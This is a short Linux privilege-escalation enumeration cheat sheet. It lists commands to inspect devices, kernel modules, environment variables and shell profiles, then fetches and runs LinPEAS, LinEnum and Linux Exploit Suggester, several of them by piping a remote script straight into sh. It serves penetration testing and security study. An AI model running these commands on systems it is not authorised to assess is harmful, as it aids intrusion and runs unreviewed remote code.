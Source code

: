 ## List block devices
```bash
lsblk
```

## List loaded kernel modules
```bash
lsmod
/sbin/modinfo <module_name>
```

## Display environment variables and PATH
```bash
echo $PATH
env
printenv
cat /etc/environment
cat /etc/profile
cat ~/.bashrc
cat ~/.profile
cat ~/.bash_profile
```

## Run unix-privesc-check for automated enumeration
```bash
unix-privesc-check standard > output.txt
unix-privesc-check detailed > output.txt
```

## Download and run LinPEAS
```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
./linpeas.sh | tee linpeas_output.txt
```

## Download and run LinEnum
```bash
curl -L https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | sh
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh
```

## Download and run Linux Exploit Suggester
```bash
curl -L https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh | sh
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh
chmod +x linux-exploit-suggester.sh
./linux-exploit-suggester.sh
```

